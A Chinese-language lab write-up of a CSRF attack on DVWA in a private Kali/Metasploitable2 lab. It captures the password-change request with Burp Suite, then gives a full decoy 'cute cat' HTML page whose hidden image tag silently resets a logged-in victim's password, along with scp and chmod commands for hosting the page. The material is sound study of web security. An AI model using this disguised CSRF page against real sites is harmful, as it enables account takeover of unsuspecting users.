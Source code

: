 ## 一、CSRF
- 利用网站对浏览器的信任，伪造请求，如：替我发帖、修改密码、转账
- 制作一个独立的、看似无害的HTML网站，当一个已经登陆DVWA的用户访问时，他们在DVWA中的密码会被自动修改成预设的值
## 二、攻击流程
### 2.1 侦测目标表单
- DVWA Security为low
- DVWA切换至CSRF
- 设置firefox代理，开启Burp Suite，拦截
- 输入新密码，点击"Change"
- 捕获请求`GET /dvwa/vulnerabilities/csrf/?password_new=123456&password_conf=123456&Change=Change HTTP/1.1`
    - 请求方法是GET
    - 请求路径是/dvwa/vulnerabilities/csrf/
    - 三个参数`password_new`,`password_conf`,`Change`
### 2.2 制作钓鱼网站
- kali上创建一个新文本文件`attack.html`
- 文本编辑器打开并添加代码
```
<!DOCTYPE html>
<html>
    <head>
        <title>一张可爱的猫咪图片</title>
    </head>
    <body>
        <h1>每日猫咪</h1>
        <p>这是一只非常可爱的小猫！</p>
        <img src="https://placehold.co/600x400/EFEFEF/AAAAAA&text=Cute+Cat+Image" width="600">

        <!-- 看不见的恶意代码 -->
        <img src="http://192.168.174.130/dvwa/vulnerabilities/csrf/?password_new=hacked&password_conf=hacked&Change=Change" style="display:none;">
    </body>
</html>
```
   - 表面是图片，实则看不见的<`img`>标签(`style="display:none;"`让它在页面上隐形)
   - 浏览器加载页面时，会加载所有图片，包括看不见的，为加载它，浏览器会向它的`src`地址发起一个GET请求
   - 如果这个浏览器在另一个标签页登录着DVWA，它在发送这个请求时，会自动把DVWA的登陆Cookie也一起带上
   - DVWA服务器收到这个带有合法Cookie的请求，认为是用户本人操作，于是把密码改成了`hacked`
### 2.3 攻击
   - 浏览器标签页登录DVWA
   - 在同一个浏览器的另一个新标签里，打开创建的`attack.html`文件
   - 回到DVWA标签页，退出，用原来密码登录，失败
   - 用新密码`hacked`登录，成功
## 三、总结
- CSRF和XSS的根本区别：一个是在利用网站对你浏览器的信任，另一个是直接在网站里执行代码
- 若哪一步出错导致无法登录，则`http://192.168.174.130/dvwa/setup.php`重置
- 失败的根本原因是firefox太聪明，拒绝了attack.html的请求
- 思路：将`attack.html`文件传输到metasploitable2中的`/var/www`文件夹下，赋予644权限(`文件的所有者（你自己）可以读写，而其他人（包括Apache服务器）都只能读取`)，再在kali linux中网页进入`http://192.168.174.130/attack.html`
- 传输文件给metasploitable2`scp -o HostKeyAlgorithms=+ssh-rsa ~/桌面/attack.html msfadmin@192.168.174.130:/tmp/`，将文件放到正确文件夹`sudo mv /tmp/attack.html /var/www/`，赋予644权限`sudo chmod 644 /var/www/attack.html`
